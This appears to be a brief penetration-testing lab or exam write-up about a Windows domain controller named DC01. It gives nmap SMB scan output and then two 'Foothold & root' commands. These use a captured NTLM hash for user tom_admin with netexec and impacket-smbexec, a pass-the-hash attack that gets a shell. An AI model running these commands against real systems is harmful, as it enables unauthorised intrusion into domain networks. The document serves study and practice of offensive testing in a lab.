 ```
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:a9:66 (VMware)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: -6s
| smb2-time: 
|   date: 2024-09-08T13:41:17
|_  start_date: N/A

```

## Foothold & root
1. checking if ok ``` netexec smb dc01 -u tom_admin -H "4979d69d4ca66955c075c41cf45f24dc" -d oscp.exam ```
2. direct fuck``` impacket-smbexec -hashes :4979d69d4ca66955c075c41cf45f24dc "oscp.exam/tom_admin@dc01"```